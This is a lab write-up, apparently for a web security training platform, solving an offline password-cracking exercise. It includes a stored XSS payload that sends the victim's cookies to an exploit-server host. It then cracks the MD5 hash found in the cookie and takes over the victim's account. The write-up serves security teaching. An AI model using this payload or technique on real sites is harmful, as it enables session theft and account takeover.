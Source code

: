 # Lab 08: Offline password cracking

> This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality.
> 

🎯 **Objective**: Obtain **Carlos's stay-logged-in cookie**, crack his password, log in as Carlos, and delete his account from the **"My account"** page.

---

### 🧑‍💻 Credentials

- 👤 **Your credentials**: `wiener:peter`
- 🎯 **Victim's username**: `carlos`

---

### ✅ Solution

1. 🕵️‍♂️ With **Burp** running, use your account to inspect the **"Stay logged in"** functionality.
2. 🔍 In **Proxy > HTTP history**, go to the **Response** to your login request.
3. 📦 Highlight the `stay-logged-in` cookie to find the structure:
    
    ```
    username + ':' + md5HashOfPassword
    ```
    
    ![2025-07-10_20-31.png](LabImg/2025-07-10_20-31.png)
    
    ![2025-07-10_20-32.png](LabImg/2025-07-10_20-32.png)
    
    ![2025-07-10_20-32_1.png](LabImg/2025-07-10_20-32_1.png)
    
    ![2025-07-10_20-33.png](LabImg/2025-07-10_20-33.png)
    

---

### 🧨 Exploit the XSS Vulnerability

1. 🖱️ Observe that the comment section is vulnerable to **stored XSS**.
2. 🌐 Go to the **exploit server** and note your unique **exploit-server URL**.
3. 📝 Go to one of the blogs and **post a comment** containing this payload (replace with your own server ID):
    
    ```html
    <script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
    
    ```
    
    ![2025-07-10_20-35.png](LabImg/2025-07-10_20-35.png)
    
    ![2025-07-10_20-36.png](LabImg/2025-07-10_20-36.png)
    
    ![2025-07-10_20-39.png](LabImg/2025-07-10_20-39.png)
    

---

### 🕵️‍♀️ Capture Carlos’s Cookie

1. 🔎 On the **exploit server**, check the **access log**.
    
    💡 You should see a request from the victim **containing their `stay-logged-in` cookie**.
    
2. 🧮 Decode the cookie using **Burp Decoder**.
    
    You’ll see something like:
    
    ```
    carlos:26323c16d5f4dabff3bb136f2460a943
    ```
    
    ![2025-07-10_20-37.png](LabImg/2025-07-10_20-37.png)
    
    ![2025-07-10_20-41.png](LabImg/2025-07-10_20-41.png)
    
    ![2025-07-10_20-42.png](LabImg/2025-07-10_20-42.png)
    

---

### 🧠 Crack the Password

1. 🔑 Paste the hash into a search engine.
    
    It reveals the password is:
    
    ```
    onceuponatime
    ```
    
    ![2025-07-10_20-47.png](LabImg/2025-07-10_20-47.png)
    

---

### 🧹 Delete Carlos's Account

1. 🔐 Log in to **Carlos’s account** using the cracked password.
2. 🗑️ Navigate to **"My account"**, then **delete** the account to solve the lab.
    
    ![2025-07-10_20-49.png](LabImg/2025-07-10_20-49.png)
    
    ![2025-07-10_20-49_1.png](LabImg/2025-07-10_20-49_1.png)
    

---

### ⚠️ Note

> The purpose of this lab is to demonstrate offline password cracking using hashes.
> 
> 
> In real-world testing, avoid pasting real client password hashes into public search engines. Use tools like **Hashcat** instead. 🛠️
> 

---

### 📺 Community Solution

▶️ [Watch on YouTube](https://youtu.be/RFt3YbGDkQ4)